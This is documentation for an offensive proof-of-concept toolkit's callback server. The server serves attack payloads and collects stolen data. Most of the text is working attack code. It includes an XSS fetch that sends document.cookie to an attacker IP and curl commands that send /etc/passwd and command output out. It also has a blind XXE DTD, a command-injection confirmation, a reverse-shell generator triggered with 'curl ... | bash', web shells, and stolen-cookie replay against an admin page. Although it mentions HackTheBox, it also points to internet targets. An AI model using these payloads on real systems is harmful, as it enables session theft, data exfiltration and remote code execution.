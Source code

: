 HTTP Server & Callbacks
========================

Built-in HTTP server for serving payloads and collecting callbacks via a thread-safe queue.

Quick Start
-----------

.. code-block:: bash

   # Start server (binds to 0.0.0.0:8000)
   python -m your_project --server

   # Specify interface and port
   python -m your_project --server --lhost 10.10.14.5 --lport 8080

Output shows all network interfaces:

.. code-block:: text

   ==================================================
   [*] POC Server listening on:
   [+] → http://10.10.14.5:8000 (tun0)
   [...] → http://192.168.1.100:8000 (eth0)
   Serving: /home/user/poc/payloads
   Logs: /home/user/poc/logs/server.ndjson
   Queue: DELETE /queue to pop events
   ==================================================

How It Works
------------

* Serves files from ``payloads/`` directory
* Captures ``cookie`` and ``exfil`` parameters (query or path)
* Logs all requests to ``logs/server.ndjson``
* CORS enabled for XSS callbacks

Sending Data
------------

Cookie Exfiltration
~~~~~~~~~~~~~~~~~~~

.. code-block:: javascript

   // From XSS
   fetch('http://10.10.14.5:8000/?cookie=' + btoa(document.cookie));

Data Exfiltration
~~~~~~~~~~~~~~~~~

.. code-block:: bash

   # File contents
   curl "http://10.10.14.5:8000/?exfil=$(cat /etc/passwd | base64 -w0)"

   # Command output
   curl "http://10.10.14.5:8000/exfil/$(whoami)"

.. code-block:: xml

   <!-- Blind XXE -->
   <!DOCTYPE foo [
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://10.10.14.5:8000/xxe/exfil.dtd">
     %dtd;
   ]>

.. code-block:: bash

   # Command injection confirmation
   test; curl http://10.10.14.5:8000/cmdi/confirmed

Retrieving Data
---------------

Use ``server_hooks`` module to retrieve captured data from the queue.

Get Cookie
~~~~~~~~~~

.. code-block:: python

   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string
   import requests

   # Wait for callback
   cookie_str = get_cookie(timeout=30)
   if cookie_str:
       cookies = parse_cookie_string(cookie_str)
       r = requests.get("http://target/admin", cookies=cookies)

Get Exfil Data
~~~~~~~~~~~~~~

.. code-block:: python

   from your_project.utils.server_hooks import get_exfil

   data = get_exfil(timeout=30)
   if data and "root:x:0:0" in data:
       print("[+] Successfully read /etc/passwd!")

Queue Management
~~~~~~~~~~~~~~~~

.. code-block:: python

   from your_project.utils.server_hooks import drain_queue, get_event

   # Clear old events
   drain_queue()

   # Get any event type
   event = get_event(timeout=30, wait=True)
   # Returns: {'type': 'cookie|exfil', 'data': '...', 'timestamp': '...'}

   # Custom server address
   cookie = get_cookie(server='http://192.168.1.100:8080', timeout=30)

Payload Directory
-----------------

Files in ``payloads/`` are automatically served:

.. code-block:: text

   payloads/
   ├── xss/
   │   ├── steal-cookie.js
   │   └── steal-all.js
   ├── xxe/
   │   └── xxe-template.dtd
   └── shells/
       ├── cmd.php
       ├── cmd.jsp
       └── cmd.aspx

Access at: ``http://10.10.14.5:8000/xss/steal-cookie.js``

Generating Payloads
~~~~~~~~~~~~~~~~~~~

Utility modules automatically write payloads to ``payloads/`` for serving.

**Reverse Shells:**

.. code-block:: python

   from your_project.utils.reverse_shells import bash_shell, python_shell, php_shell

   # Generate bash shell → payloads/shells/rev_bash.sh
   path = bash_shell("10.10.14.5", 4444)
   # Returns: "shells/rev_bash.sh"
   # Served at: http://10.10.14.5:8000/shells/rev_bash.sh

   # Trigger download on target
   requests.post(target, data={
       "cmd": f"curl http://10.10.14.5:8000/{path} | bash"
   })

**XXE DTD Files:**

.. code-block:: python

   from your_project.utils.xxe import oob_dtd, quick_test

   # Generate DTD → payloads/xxe/xxe.dtd
   dtd_path = oob_dtd("http://10.10.14.5:8000", "/etc/passwd")
   # Returns: "xxe/xxe.dtd"
   # Served at: http://10.10.14.5:8000/xxe/xxe.dtd

   # Quick test generates DTD and returns payload
   payload = quick_test("http://10.10.14.5:8000", "/etc/passwd")
   requests.post(target, data=payload, headers={"Content-Type": "application/xml"})

   # Get exfiltrated data
   from your_project.utils.server_hooks import get_exfil
   data = get_exfil(timeout=30)

Example: XSS Cookie Theft
~~~~~~~~~~~~~~~~~~~~~~~~~

**Inject payload:**

.. code-block:: html

   <script src="http://10.10.14.5:8000/xss/steal-cookie.js"></script>

**Retrieve in exploit:**

.. code-block:: python

   from your_project.utils.server_hooks import get_cookie, drain_queue
   from your_project.utils.cookie import parse_cookie_string

   drain_queue()  # Clear old events

   # Inject XSS (your code here)
   inject_xss(target, "http://10.10.14.5:8000/xss/steal-cookie.js")

   # Wait for callback
   cookie_str = get_cookie(timeout=30)
   cookies = parse_cookie_string(cookie_str)

   # Use stolen cookie
   r = requests.get(f"{target}/admin", cookies=cookies)

Server Logs
-----------

All requests logged to ``logs/server.ndjson``:

.. code-block:: json

   {
     "timestamp": "2025-10-22T13:45:30.123456",
     "client": "192.168.1.100:54321",
     "method": "GET",
     "path": "/cookie/c2Vzc2lvbj1hYmMxMjM=",
     "query": {"source": ["xss"]},
     "headers": {"User-Agent": "...", "Host": "..."},
     "body": ""
   }

.. code-block:: bash

   # View logs
   tail -f logs/server.ndjson | jq .

   # Search for cookies
   grep '"path":"/cookie' logs/server.ndjson | jq .

Event Schema
------------

**Cookie Event:**

.. code-block:: json

   {
     "type": "cookie",
     "data": "session=abc123; token=xyz789",
     "raw": "c2Vzc2lvbj1hYmMxMjM7IHRva2VuPXh5eno3ODk=",
     "timestamp": "2025-10-22T13:45:30.123456"
   }

**Exfil Event:**

.. code-block:: json

   {
     "type": "exfil",
     "data": "/etc/passwd content or XXE output",
     "timestamp": "2025-10-22T13:45:30.123456"
   }

Tips
----

**Clear queue before each test:**

.. code-block:: python

   from your_project.utils.server_hooks import drain_queue
   drain_queue()

**Choose the right interface:**

* Use ``tun0`` IP for HackTheBox/TryHackMe
* Use ``eth0``/``wlan0`` for local network
* Use public IP for internet targets

**Base64 encoding bypasses filters:**

.. code-block:: javascript

   fetch('http://10.10.14.5:8000/?cookie=' + btoa(document.cookie));
